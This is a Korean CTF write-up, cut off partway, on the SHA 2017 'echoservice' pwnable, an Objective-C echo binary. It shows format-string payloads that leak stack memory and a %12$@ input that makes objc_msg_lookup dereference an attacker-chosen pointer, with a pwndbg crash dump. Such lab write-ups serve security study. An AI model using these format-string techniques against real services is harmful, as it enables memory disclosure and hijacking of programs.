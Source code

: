 ```
  v16 = v15;
  LODWORD(v17) = objc_msg_lookup(v15, off_202390);
  LODWORD(v18) = v17(v16, off_202390);
  v19 = v18;
  LODWORD(v20) = objc_msg_lookup(v18, off_2023A0);
  v20(v19, off_2023A0);
  LODWORD(v21) = objc_msg_lookup(v10, off_2023B0);
  v21(v10, off_2023B0);
  return 0LL;
}
```

읭...?? 일반 C 형태의 코드가 아닙니다. 오브젝트 C를 개발해보신 분은 함수 심볼을 보고 바로 눈치를 챗겠지만 저는 함수 명으로 검색해서 해당 코드가 `object-c`로 되어 있음을 알았습니다.

바이너리 동작 형태는 단순히 echo 를 해주는데 입력 시 일반적인 `FSB`가 발생합니다.

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ ./echoservice
AAAAAAAA%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx       
2017-08-15 01:55:09.170 echoservice[26079] AAAAAAAA7ffff73ddb40.00000000.00000000.5555558385c0.00000000.5555557563a0.5555557cf6e0.00000000.555555842110.555555837bb0.00000000.4141414141414141
```

흥미로운 점은 `object-c`에서는 `%n`명령이 없다는 점 입니다. 때문에 임의 쓰기가 힘듭니다.

여러가지 검색 해본 결과 `object-c`에서는 `%@` 포멧 스트링을 제공해줍니다. `%@`명령은 `object-c` 오브젝트를 출력해주는 역할을 하는데 스펙은 다음과 같습니다.

```
%@n

Objective-C object, printed as the string returned by descriptionWithLocale: if available, or description otherwise. Also works with CFTypeRef objects, returning the result of the CFCopyDescription function.
```

테스트 해보면 세그 폴트가 뜨는것을 확인할 수 있습니다.

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ ./echoservice
AAAAAAAA%12$@
Segmentation fault (core dumped)
```

디버거로 해당 위치를 덤프 해보면 다음과 같습니다.

```
pwndbg> r
Starting program: /media/psf/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice/echoservice
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
AAAAAAAA%12$@

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff73f3c83 in objc_msg_lookup () from /usr/lib/x86_64-linux-gnu/libobjc.so.4
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────REGISTERS──────────]
*RAX  0xb0
*RBX  0xffffffffffffffff
*RCX  0x7fffffffbc00 ◂— 0x5555f73ddb40
 RDX  0x0
*RDI  0x4141414141414141 ('AAAAAAAA')
*RSI  0x7ffff7ccf990 ◂— 0x1000000003
 R8   0x0
*R9   0x1e
 R10  0x0
 R11  0x0
*R12  0x7ffff7ccfa40 —▸ 0x7ffff7cdf4a0 —▸ 0x7ffff7cdf780 —▸ 0x7ffff75fda00 ◂— ...
```